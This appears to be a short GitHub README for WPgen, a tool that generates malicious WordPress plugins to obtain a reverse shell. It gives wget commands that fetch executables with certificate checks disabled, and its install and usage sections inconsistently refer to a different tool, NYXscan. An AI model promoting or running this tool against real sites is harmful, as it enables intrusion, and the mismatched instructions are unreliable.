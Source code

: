 # **WPgen**

#### **WPgen** WPgen is an automatic malicious plugin generator for **WordPress**, get a reverse shell in a simple and fast way.

![](screenshot.png)

---

## Download

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/WPgen/WPgen" && chmod +x WPgen
```

## Download & Install (PATH)

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/NYXscan/NYXscan" -O /usr/bin/NYXscan && chmod +x /usr/bin/NYXscan
```

## Usage

```sh
NYXscan -l 192.168.1.X -p 443
```

---

